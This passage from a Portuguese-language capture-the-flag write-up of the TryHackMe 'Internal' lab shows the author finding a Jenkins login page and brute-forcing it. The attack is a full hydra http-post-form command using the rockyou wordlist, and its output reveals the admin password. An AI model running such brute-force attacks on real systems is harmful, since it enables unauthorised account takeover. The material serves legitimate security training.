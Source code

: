Encontramos a tela de login do Jenkins!!!

Porém, nenhuma das credenciais que encontramos foi aceita, podemos fazer um bruteforce com o `hydra`, para tentar acesso.

Primeiro precisamos verificar os parâmetros de login e senha e a mensagem de erro quando o login falha, podemos pressionar `F12` no Firefox e verificar os nomes de campos e actions.

<img src="/thm/thm-internal-9.png">

Vamos iniciar o bruteforce com o usuário `admin`, que foi onde conseguimos o primeiro acesso.

```bash
┌──(hastur㉿hastur)-[~/…/estudos/thm/hard/Internal]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost -s 8080 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password" 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-09-08 22:36:43
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://localhost:8080/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password
[8080][http-post-form] host: localhost   login: admin   password: spongebob
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-09-08 22:37:30
```

Encontramos a credencial `admin:spongebob`!!!
